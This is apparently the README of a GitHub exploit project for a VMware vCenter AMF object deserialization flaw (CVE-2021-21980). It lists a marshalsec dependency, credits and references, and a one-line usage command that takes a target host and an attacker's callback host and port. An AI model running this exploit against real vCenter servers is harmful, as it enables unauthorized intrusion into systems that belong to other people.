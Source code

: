 # LongTail-AMF
Vcenter AMF object deserialization exploit 

## Requirement
https://github.com/RandomRobbieBF/marshalsec-jar

## Usage  
```bash
python3 longtail.py targetip targetport  attackip attackerport
```

## Authors
• [D0rkerDevil](https://twitter.com/D0rkerDevil)

• [wabafet1](https://twitter.com/wabafet1)

 This is for educational purposes, Authors are not responsible for any damages.

## Reference
https://attackerkb.com/topics/5nZX40suYA/cve-2021-21980

## Original Analyst
• [wvu](https://twitter.com/wvuuuuuuuuuuuuu)
